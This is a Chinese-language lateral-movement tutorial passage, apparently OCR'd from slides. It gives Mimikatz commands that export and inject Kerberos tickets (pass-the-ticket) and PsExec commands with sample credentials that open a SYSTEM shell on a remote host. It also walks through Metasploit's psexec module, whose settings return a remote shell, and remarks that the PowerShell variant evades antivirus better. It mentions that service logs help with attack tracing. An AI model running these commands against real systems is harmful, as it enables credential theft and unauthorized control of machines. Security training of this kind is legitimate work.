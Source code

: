 # 4\. 票据传递攻击分析

要想使用mimikatz的哈希传递功能，必须具有本地管理员权限。Mimikatz同样提供了不需要本地管理员权限进行横向渗透测试的方法，例如票据传递（Pass
The Ticket，PTT）

1，使用mimikatz进行票据传递
导出票据：
sekurlsa::tickets /export 清楚内存中票据：Kerberos::purge
2，将票据注入内存
Kerberos::ptt “票据路径”

# 5\. PsExec的使用

PsExec介绍
PsExec是Sysinternals套件中的一款功能强大的软件，起初PsExec主要用于大批量windows主机的运维，在域环境下效果尤其好，但是攻击者渐渐开始使用PsExec
，通过命令行环境与目标机器进行连接，甚至控制目标机器，而不需要通过远程桌面协议（RDP）进行图形化控制，降低了恶意操作被管理员发现的可能性（因为它
是windows提供的工具，所以杀软将其列在白名单中）PsExec可以在windows Vista/NT 4.0/2000/XP/server2003/server 2008/server2012/server 2016（包括64位版本）上运行。
https://docs.microsoft.com/zh-cn/sysinternals/downloads/psexec

1，PsTools工具包中的PsExec
PsExec包含在PsTool工具包中，通过PsExec，可以在远程计算机上执行命令，也可以将管理员权限提升到system以运行指定程序， PsExec的基本原理是：通过管
道在远程目标机器上创建一个psexec服务，并在本地磁盘中生成一个名为“PSEXECSVC”的二进制文件，然后，通过psexec服务运行命令，运行结束后删
除服务。
首先获取目标操作系统的交互式shell。
1)在建立ipc连接情况下，执行如下命令，获取system权限的shell。
PsExec.exe -accepteula \\192.168.150.12 –s cmd.exe //system权限
如果不使用“-s”参数，则获取的权限为administrator。

1，PsTools工具包中的PsExec
2)如果没有建立ipc连接， PsExec有两个参数可以通过指定账号和密码进行远程连
接，命令如下：
psexec \\192.168.150.12 –u administrator –p tys@123! –s cmd.exe
执行以下命令，使用PsExec在远程计算机上进行回显
psexec \\192.168.150.12 –u administrator –p tys@123! –s cmd.exe /c
“ipconfig”

1，PsTools工具包中的PsExec
使用PsTools时，需要注意以下几点
A. 需要远程系统开启admin$共享（默认开启） B. 使用ipc$连接目标系统后，不需要输入账号密码
C. 在使用PsTools执行命令时，会在目标系统创建一个psexec服务。命令执行后
，psexec服务将自动删除，由于创建或删除服务时会产生大量日志，可以在攻
击溯源时通过日志反推攻击流程。
D. 使用PsTools可以直接获得system权限的交互式shell

2，metasploit中的psexec模块
进入msf后，使用exploit/windows/smb/psexec模块，或者exploit/windows/smb/psexec-psh（PsExec的powershell版本）。
使用后者，该版本生成的payload主要是由powershell实现的，所以免杀效果更好，如果目标系统不包含powershell如：windows XP或windows server 2003，所
以攻击者也会使用exploit/windows/smb/psexec生成的EXE版本的payload。

2，metasploit中的psexec模块
使用方法：
加载模块 use exploit/windows/smb/psexec
查看参数 show options
设置参数 set rhost 目标ip
set smbuser administrator
set smbpass af@123!
set lhost 本地ip
运行脚本 exploit
然后返回一个shell，
输入shell，会返回一个system权限的shell
